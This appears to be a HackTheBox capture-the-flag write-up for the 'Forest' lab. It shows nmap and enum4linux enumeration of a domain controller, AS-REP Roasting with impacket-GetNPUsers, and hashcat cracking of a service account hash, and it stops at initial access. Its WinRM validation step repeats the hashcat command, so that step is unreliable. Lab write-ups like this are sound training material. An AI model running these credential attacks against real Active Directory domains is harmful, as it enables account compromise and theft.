



# HackTheBox - Forest


## Overview

- Difficulty: Easy
- Platform: Active Directory
- Skills Demonstrated: Active Directory, SMB Enumeration, AS-REP Roasting, Password Decryption, Windows Privilege Escalation, Group Permissions Exploitation

## Methodology 

The assessment followed a standard attack methodology:

1. Enumeration
2. Vulnerability Identification
3. Initial Access
4. Privilege Escalation
5. Post Exploitation
---

## Enumeration

Intial enumeration was performed by running a port scan to idenitfy open ports and services
```
nmap 10.129.95.210 -sCV -A -p-
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-31 12:30 BST
Nmap scan report for 10.129.95.210
Host is up (0.012s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2026-05-31 11:37:59Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
...
```
Key Findings:
- Accessible ports DNS (53), Kerberos (88), and LDAP (389) reveal the target machine is Active Directory Domain Controller
- Port 445 (SMB) is exposed
- Port 5985 (WinRM) is exposed


Further enumeration was performed by utilizing the tool `enum4linux` to discover any potential shares or users. 
```
enum4linux 10.129.95.210
```



Upon discovering a list of users, I attempted AS-REP Roasting to identify any accounts with the `DONT_REQUIRE_PREAUTH` flag enabled. This would allow Kerberos AS-REP hashes to be requested without authentication
```
impacket-GetNPUsers htb.local/ -dc-ip 10.129.95.210 -no-pass -usersfile users
```


## Initial Access

I was able to successfully obtain the hashed password for the `svc-alfresco` user. Now this hash can be saved locally and taken offline for password cracking using the tool `Hashcat`
```
hashcat -m 18200 alfresco.hash /usr/share/wordlists/rockyou.txt
```



With the plaintext password revealed, the credentials were validated against the WinRM service
```
hashcat -m 18200 alfresco.hash /usr/share/wordlists/rockyou.txt
```




